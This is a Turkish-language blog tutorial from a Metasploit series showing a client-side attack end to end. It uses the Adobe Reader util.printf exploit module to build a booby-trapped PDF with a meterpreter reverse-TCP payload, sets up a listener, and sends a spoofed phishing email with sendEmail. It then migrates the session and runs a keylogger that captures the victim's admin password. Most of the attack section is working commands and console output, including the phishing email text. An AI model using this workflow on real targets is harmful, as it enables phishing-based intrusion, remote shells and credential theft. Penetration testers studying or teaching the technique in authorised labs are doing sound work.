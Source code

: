 ```yaml
---
draft: false

title:  'MSF Binary İstemci Exploitleri'
date: '2017-05-20T13:13:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
 
 
url:  /tr/msf-binary-istemci-exploitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Tarafı Exploitler



Önceki yazılarımızda Windows ve Linux için kullanılan istemci tarafı exploitleri görmüştük. Bu yazımızda başka bir senaryoya bakmak istiyorum.



Başarılı bir bilgi toplama safhasından sonra bir IT firması ile ilgili şu sonuca ulaştığımızı farz edelim. Firma;



1) Kullandıkları sistemler en yeni teknolojidir.



2) IT departmanının eposta adresi: itdept@victim.com



Şimdi bu durumda, IT departmanında bir bilgisayara ulaşmak ve keylogger adı verilen (tuş kaydedici) çalıştırmak istiyoruz. Bu sayede klavyeden bastıkları tuşları kayıt ederek yararlı bilgiler elde etmek mümkün olacaktır.



`msfconsole` komutu ile Metasploit Framework’ü çalıştıralım. IT departmanının ilgisini çekecek ve açıp okumak isteyeceği bir PDF dokümanı hazırlayalım. Dokümanın güvenlikle ilgili ve mantıklı bir başlığının olması gerektiğini unutmayın. Ayrıca Antivirüs yazılımları tarafından zararlı olarak algılanmaması gerekmektedir.



Böyle bir PDF dokümanı hazırlamak için **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Zafiyetini** kullanacağız. Bunun için `exploit/windows/fileformat/adobe_utilprintf` modülünü yükleyelim.


```bash
msf **&gt;** use exploit/windows/fileformat/adobe_utilprintf
msf exploit**(**adobe_utilprintf**)** **&gt;** set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME **=&gt;** BestComputers-UpgradeInstructions.pdf
msf exploit**(**adobe_utilprintf**)** **&gt;** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=&gt;** windows/meterpreter/reverse_tcp
msf exploit**(**adobe_utilprintf**)** **&gt;** set LHOST 192.168.8.128
LHOST **=&gt;** 192.168.8.128
msf exploit**(**adobe_utilprintf**)** **&gt;** set LPORT 4455
LPORT **=&gt;** 4455
msf exploit**(**adobe_utilprintf**)** **&gt;** show options

Module options **(**exploit/windows/fileformat/adobe_utilprintf**)**:

   Name      Current Setting                        Required  Description
   ----      ---------------                        --------  -----------
   FILENAME  BestComputers-UpgradeInstructions.pdf  yes       The file name.


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique **(**Accepted: '', seh, thread, process, none**)**
   LHOST     192.168.8.128    yes       The listen address
   LPORT     4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Adobe Reader v8.1.2 **(**Windows XP SP3 English**)**
```



Çıktıdan da görüleceği gibi `FILENAME` değişkenini yani dosya adını istediğiniz gibi ayarlayabilirsiniz. Payload kısmında ise `LHOST` ve `LPORT` değişkenlerini dinleme yapılacak bilgisayarın bilgileri olarak ayarlamamız gerekmektedir. Ardında `exploit` komutu ile modülü çalıştıralım.


```bash
msf exploit**(**adobe_utilprintf**)** **&gt;** exploit

**[*********]** Creating 'BestComputers-UpgradeInstructions.pdf' file...
**[*********]** BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit**(**adobe_utilprintf**)** **&gt;**
```



Görüldüğü gibi PDF dosyası, `/root/.msf4/local/` içerisine oluşturulmuştur. Bu dosyayı kolay ulaşım için `/tmp` klasörü içine kopyalayalım. Şimdi dosyamızı ilgili eposta adresine göndermeden önce bilgisayarımızda dinleyici modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü kullanacağız. `LHOST` ve `LPORT` değerlerini PDF dosyası oluştururken verdiğimiz değerlerle aynı olmasına dikkat ediyoruz.


```bash
msf **&gt;** use exploit/multi/handler
msf exploit**(**handler**)** **&gt;** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=&gt;** windows/meterpreter/reverse_tcp
msf exploit**(**handler**)** **&gt;** set LPORT 4455
LPORT **=&gt;** 4455
msf exploit**(**handler**)** **&gt;** set LHOST 192.168.8.128
LHOST **=&gt;** 192.168.8.128
msf exploit**(**handler**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
```



Dinleyici modülü aktif hale getirdikten sonra bir şekilde PDF dosyasını `itdept@victim.com` adresine göndermemiz gerekiyor. Bunu aşağıdaki örnek komutla yapabilirsiniz. Başka eposta gönderme yöntemleri de kullanabilirsiniz. Komut örnek olarak verilmiştir.


```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions **for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```



Bu örnek komutta kullanılan parametreleri kısaca açıklayalım.



`-t`: TO yani alıcı adresi ifade eder. `-f`: FROM yani gönderici adresi ifade eder. `-s`: SMTP Server IP adresini ifade eder. `-u`: TTITLE yani postanın konusunu ifade eder. `-a`: ATTACHMENT yani ekli dosyayı ifade eder.



Komutu yazıp ENTER tuşuna bastığınızda, epostanın Metin kısmını yazmaya başlayabilirsiniz. Yazım tamamlandıktan sonra CTRL+D tuşları ile işlemi tamamlayabilirsiniz. Böylece posta alıcı adrese gönderilecektir.



Alıcı, bu postayı alıp Antivirüs programı ile kontrol ettiğinde zararsız olarak sonuç alacaktır ancak dosyayı açmak için tıkladığında karşısına boş bir ekran gelse bile aslında dinleyici bilgisayarla iletişim kurulmuş olur.


```bash
**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
**[*********]** Sending stage **(**718336 bytes**)**
session[*******]** Meterpreter session 1 opened **(**192.168.8.128:4455 -&gt; 192.168.8.130:49322**)**

meterpreter **&gt;**
```



Gördüğünüz gibi, PDF dosyası açıldığında Meterpreter shell açılmış durumdadır. Artık karşı tarafın bilgisayarında çeşitli komutları çalıştırmak mümkündür. Son olarak `post/windows/capture/keylog_recorder` modülünü çalıştırarak tuş hareketlerini kaydetmek mümkün hale gelmiştir.


```bash
meterpreter **&gt;** ps

Process list
**============**

    PID   Name            Path                                 
    ---   ----            ----                                 
    852   taskeng.exe     C:\Windows\system32\taskeng.exe      
    1308  Dwm.exe         C:\Windows\system32\Dwm.exe          
    1520  explorer.exe    C:\Windows\explorer.exe              
    2184  VMwareTray.exe  C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    2196  VMwareUser.exe  C:\Program FilesVMware\VMware Tools\VMwareUser.exe
    3176  iexplore.exe    C:\Program Files\Internet Explorer\iexplore.exe
    3452  AcroRd32.exe    C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter **&gt;** run post/windows/manage/migrate 

**[*********]** Running module against V-MAC-XP
**[*********]** Current server process: svchost.exe **(**1076**)**
**[*********]** Migrating to explorer.exe...
**[*********]** Migrating into process ID 816
**[*********]** New server process: Explorer.EXE **(**816**)**

meterpreter **&gt;** sysinfo
Computer: OFFSEC-PC
OS      : Windows Vista **(**Build 6000, **)**.

meterpreter **&gt;** use priv
Loading extension priv...success.

meterpreter **&gt;** run post/windows/capture/keylog_recorder 

**[*********]** Executing module against V-MAC-XP
**[*********]** Starting the keystroke sniffer...
**[*********]** Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
**[*********]** Recording keystrokes...
```



Kaydedilen tuşları, `20110323091836_default_192.168.1.195_host.windows.key_832155.txt` dosyasının içeriğinden kontrol edebilirsiniz.


```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support,   I tried to open ti his file 2-3 times with no success.  I even had my admin and CFO tru   y it, but no one can get it to p open.  I turned on the rmote access server so you can log **in **to fix our p         this problem.  Our user name is admin and password **for **that session is 123456.   Call or eme ail when you are **done**.   Thanks IT Dept
```



Görüldüğü gibi IT çalışanı, tuş hareketlerinde kullanıcı adının `admin` ve parolasının `123456` olduğunu habersizce ortaya çıkarmıştır.
